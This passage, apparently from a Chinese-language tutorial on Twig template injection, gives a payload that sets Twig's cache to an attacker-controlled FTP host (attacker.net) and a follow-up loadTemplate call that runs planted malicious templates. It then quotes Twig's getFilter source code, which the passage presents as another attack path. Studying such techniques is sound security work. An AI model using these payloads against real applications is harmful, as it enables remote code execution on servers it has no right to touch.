因此构造以下的payload

```php
{{_self.env.setCache("ftp://attacker.net:xxxx")}}
```

这里将Twig的缓存选项设置为了一个远程FTP地址`ftp://attacker.net:xxxx`导致Twig在将模板下载到本地缓存之前，尝试从指定的FTP地址下载模板，当我们控制这个地址，就可以将恶意代码植入模板中，进行攻击。植入后再加载模板

```php
{{_self.env.loadTemplate("恶意模板名")}}
```

实现攻击。

##### getFilter()

源码：

```php
    public function getFilter($name)
    {
        if (!$this->extensionInitialized) {
            $this->initExtensions();
        }

        if (isset($this->filters[$name])) {
            return $this->filters[$name];
        }

        foreach ($this->filters as $pattern => $filter) {
            $pattern = str_replace('\\*', '(.*?)', preg_quote($pattern, '#'), $count);

            if ($count) {
                if (preg_match('#^'.$pattern.'$#', $name, $matches)) {
                    array_shift($matches);
                    $filter->setArguments($matches);

                    return $filter;
                }
            }
        }

        foreach ($this->filterCallbacks as $callback) {
            if (false !== $filter = call_user_func($callback, $name)) {
                return $filter;
            }
        }

        return false;
    }

    public function registerUndefinedFilterCallback($callable)
    {
        $this->filterCallbacks[] = $callable;
    }
```
